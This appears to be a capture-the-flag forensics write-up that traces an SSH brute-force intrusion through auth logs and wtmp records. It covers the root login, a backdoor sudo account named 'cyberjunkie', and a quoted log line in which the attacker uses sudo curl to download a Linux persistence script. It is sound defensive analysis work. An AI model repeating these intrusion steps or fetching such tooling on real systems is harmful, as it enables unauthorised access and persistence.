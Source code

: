 # task 1: find the attacker's IP

I notice in the logs many failed requests coming from 65.2.161.68, so I deduce that this IP is attempting a brute-force attack on the service.

# task 2: find the compromised account

in lines 281 to 283:

```
Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: Accepted password for root from 65.2.161.68 port 34782 ssh2
Mar 6 06:31:40 ip-172-31-35-28 sshd[2411]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.
```

I observe a successful login from the same IP that was performing the brute-force, targeting the root account.

# task 3: login timestamp (wtmp)

to read the file, I use utmpdump:

```
utmpdump wtmp 
Utmp dump of wtmp
[2] [00000] [~~  ] [reboot  ] [~           ] [6.2.0-1017-aws      ] [0.0.0.0        ] [2024-01-25T11:12:17,804944+00:00]
[5] [00601] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,072401+00:00]
[6] [00601] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,072401+00:00]
[5] [00618] [tty1] [        ] [tty1        ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,080342+00:00]
[6] [00618] [tty1] [LOGIN   ] [tty1        ] [                    ] [0.0.0.0        ] [2024-01-25T11:12:31,080342+00:00]
[1] [00053] [~~  ] [runlevel] [~           ] [6.2.0-1017-aws      ] [0.0.0.0        ] [2024-01-25T11:12:33,792454+00:00]
[7] [01284] [ts/0] [ubuntu  ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-01-25T11:13:58,354674+00:00]
[8] [01284] [    ] [        ] [pts/0       ] [                    ] [0.0.0.0        ] [2024-01-25T11:15:12,956114+00:00]
[7] [01483] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-01-25T11:15:40,806926+00:00]
[8] [01404] [    ] [        ] [pts/0       ] [                    ] [0.0.0.0        ] [2024-01-25T12:34:34,949753+00:00]
[7] [836798] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-02-11T10:33:49,408334+00:00]
[5] [838568] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-02-11T10:39:02,172417+00:00]
[6] [838568] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-02-11T10:39:02,172417+00:00]
[7] [838962] [ts/1] [root    ] [pts/1       ] [203.101.190.9       ] [203.101.190.9  ] [2024-02-11T10:41:11,700107+00:00]
[8] [838896] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-02-11T10:41:46,272984+00:00]
[7] [842171] [ts/1] [root    ] [pts/1       ] [203.101.190.9       ] [203.101.190.9  ] [2024-02-11T10:54:27,775434+00:00]
[8] [842073] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-02-11T11:08:04,769514+00:00]
[8] [836694] [    ] [        ] [pts/0       ] [                    ] [0.0.0.0        ] [2024-02-11T11:08:04,769963+00:00]
[1] [00000] [~~  ] [shutdown] [~           ] [6.2.0-1017-aws      ] [0.0.0.0        ] [2024-02-11T11:09:18,000731+00:00]
[2] [00000] [~~  ] [reboot  ] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:15,744575+00:00]
[5] [00464] [tyS0] [        ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,354378+00:00]
[6] [00464] [tyS0] [LOGIN   ] [ttyS0       ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,354378+00:00]
[5] [00505] [tty1] [        ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[6] [00505] [tty1] [LOGIN   ] [tty1        ] [                    ] [0.0.0.0        ] [2024-03-06T06:17:27,469940+00:00]
[1] [00053] [~~  ] [runlevel] [~           ] [6.2.0-1018-aws      ] [0.0.0.0        ] [2024-03-06T06:17:29,538024+00:00]
[7] [01583] [ts/0] [root    ] [pts/0       ] [203.101.190.9       ] [203.101.190.9  ] [2024-03-06T06:19:55,151913+00:00]
[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]
[8] [02491] [    ] [        ] [pts/1       ] [                    ] [0.0.0.0        ] [2024-03-06T06:37:24,590579+00:00]
[7] [02667] [ts/1] [cyberjunkie] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:37:35,475575+00:00]
```

And I found this one :

`[7] [02549] [ts/1] [root    ] [pts/1       ] [65.2.161.68         ] [65.2.161.68    ] [2024-03-06T06:32:45,387923+00:00]`

which shows a `[7]` type (login), PID `2549`, remote terminal `pts/1`, from our attacker’s IP `65.2.161.68` on `2024-03-06 at 06:32:45`.

# task 4: ssh session

The brute-force login shows:

`Mar 6 06:31:40 ip-172-31-35-28 systemd-logind[411]: New session 34 of user root.`

**BUT** the attacker used a brute-force script that opened and closed the session immediately. I want the session opened manually with the discovered password:

```
Mar 6 06:32:44 ip-172-31-35-28 sshd[2491]: Accepted password for root from 65.2.161.68 port 53184 ssh2
Mar 6 06:32:44 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
```

And I find session 37!

# task 5/6: privilege escalation

I notice a user account being added directly after the attacker's login:

```
Mar 6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/group: name=cyberjunkie, GID=1002
Mar 6 06:34:18 ip-172-31-35-28 groupadd[2586]: group added to /etc/gshadow: name=cyberjunkie
Mar 6 06:34:18 ip-172-31-35-28 groupadd[2586]: new group: name=cyberjunkie, GID=1002
Mar 6 06:34:18 ip-172-31-35-28 useradd[2592]: new user: name=cyberjunkie, UID=1002, GID=1002, home=/home/cyberjunkie, shell=/bin/bash, from=/dev/pts/1
Mar 6 06:34:26 ip-172-31-35-28 passwd[2603]: pam_unix(passwd:chauthtok): password changed for cyberjunkie
Mar 6 06:34:31 ip-172-31-35-28 chfn[2605]: changed user 'cyberjunkie' information
Mar 6 06:35:01 ip-172-31-35-28 CRON[2614]: pam_unix(cron:session): session opened for user root(uid=0) by (uid=0)
Mar 6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar 6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
```

this gives them privilege escalation to have a persistent backup account in case the root password changes.

the account name is **cyberjunkie**
**MITRE ATT\&CK sub-technique ID**: T1136.001 – *Create Account: Local Account*

# task 7: root session end

The attacker disconnected here:

```
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: Received disconnect from 65.2.161.68 port 53184:11: disconnected by user
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: Disconnected from user root 65.2.161.68 port 53184
Mar 6 06:37:24 ip-172-31-35-28 sshd[2491]: pam_unix(sshd:session): session closed for user root
```

the exact date is `2024-03-06 06:37:24`

# task 8: malicious download

I find the following line:

`Mar 6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

Which corresponds to the download of a malicious script!